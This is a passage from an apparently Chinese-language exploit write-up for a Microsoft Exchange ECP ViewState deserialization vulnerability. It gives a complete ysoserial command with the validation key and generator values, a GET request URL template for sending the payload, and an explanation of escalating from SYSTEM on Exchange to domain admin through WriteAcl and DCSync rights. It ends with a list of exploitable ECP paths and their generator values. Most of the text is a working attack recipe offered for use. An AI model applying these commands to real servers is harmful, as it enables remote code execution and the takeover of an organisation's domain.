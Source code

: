 
```bash
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "calc.exe" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="B97B4E27" --viewstateuserkey="2fdc8b0d-dcfb-4d0a-b464-95b9a2dcc968" --isdebug –-islegacy
```

![](images/15891654258645.png)


构造以下URL，使用生成的payload替换，使用上面所说的value值替换，最后用GET请求发送给服务器即可。


```bash
http://url/ecp/default.aspx?__VIEWSTATEGENERATOR=<generator>&__VIEWSTATE=<ViewState>
```

![](images/15891655827741.jpg)


收到dns请求

![](images/15891658393976.png)


由于Exchange Server的机器用户具备SYSTEM权限，默认在域内拥有WriteAcl的权限，因此，可以通过修改ACL的DS-Replication-Get-Changes和DS-Replication-Get-Changes-All来赋予任何一个用户Dcsync的权限，所以这个漏洞的最大危害在于：在域内拥有一个普通用户权限的情况下，通过Exchange Server上以system用户的身份执行任意的命令，再利用Exchange Server的WriteAcl权限，从而达到域管权限。

**附录**

经过简单测试，已知可利用路径：


```bash
/ecp/default.aspx
__VIEWSTATEGENERATOR=B97B4E27

/ecp/PersonalSettings/HomePage.aspx?showhelp=false&
__VIEWSTATEGENERATOR=1D01FD4E

/ecp/PersonalSettings/HomePage.aspx?showhelp=false&
__VIEWSTATEGENERATOR=1D01FD4E

/ecp/Organize/AutomaticReplies.slab?showhelp=false&
__VIEWSTATEGENERATOR=FD338EE0

/ecp/RulesEditor/InboxRules.slab?showhelp=false&
__VIEWSTATEGENERATOR=FD338EE0

/ecp/Organize/DeliveryReports.slab?showhelp=false&
__VIEWSTATEGENERATOR=FD338EE0

/ecp/MyGroups/PersonalGroups.aspx?showhelp=false&
__VIEWSTATEGENERATOR=A767F62B

/ecp/MyGroups/ViewDistributionGroup.aspx?pwmcid=1&id=38f4bec5-704f-4272-a654-95d53150e2ae&ReturnObjectType=1
__VIEWSTATEGENERATOR=321473B8

/ecp/Customize/Messaging.aspx?showhelp=false&
__VIEWSTATEGENERATOR=9C5731F0

/ecp/Customize/General.aspx?showhelp=false&
__VIEWSTATEGENERATOR=72B13321

/ecp/Customize/Calendar.aspx?showhelp=false&
__VIEWSTATEGENERATOR=4AD51055

/ecp/Customize/SentItems.aspx?showhelp=false&
```